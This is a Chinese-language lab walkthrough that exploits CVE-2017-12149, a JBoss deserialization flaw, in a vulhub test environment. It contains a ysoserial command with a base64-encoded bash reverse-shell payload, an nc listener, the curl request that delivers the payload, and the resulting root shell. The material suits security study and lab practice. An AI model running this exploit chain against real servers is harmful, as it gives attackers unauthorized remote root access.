 # CVE-2017-12149

漏洞环境搭建，下在vulhub，cd到对应的目录执行以下命令

{% embed url="https://github.com/vulhub/vulhub" %}

```
docker-compose up -d
```

好了访问目标8080端口

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

访问/invoker/readonly这个路径相应500，说明存在漏洞

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

漏洞利用环境准备，下载ysoserial用来生成利用链

{% embed url="https://github.com/frohoff/ysoserial.git" %}

执行以下命令生产POC

```
┌──(root㉿kali)-[~/Desktop/tool/jdk1.8.0_202/bin]
└─# ./java -jar ../../Deserialization/ysoserial/target/ysoserial-all.jar CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzLjEyOS85OTkyIDA+JjE=}|{base64,-d}|{bash,-i}" > /root/Desktop/test/poc.ser
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

nc开启监听

```
nc -lnvp 9992
```

通过burp发送poc没有没有返回shell

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

通过curl发送该poc

```
┌──(root㉿kali)-[~/Desktop/test]
└─# curl http://192.168.23.132:8080/invoker/readonly --data-binary @poc.ser
```

监听端口返回一个shell

```
┌──(root㉿kali)-[~]
└─# nc -nlvp 9992
listening on [any] 9992 ...
connect to [192.168.23.129] from (UNKNOWN) [192.168.23.132] 42670
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@81b0d810cbbf:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```
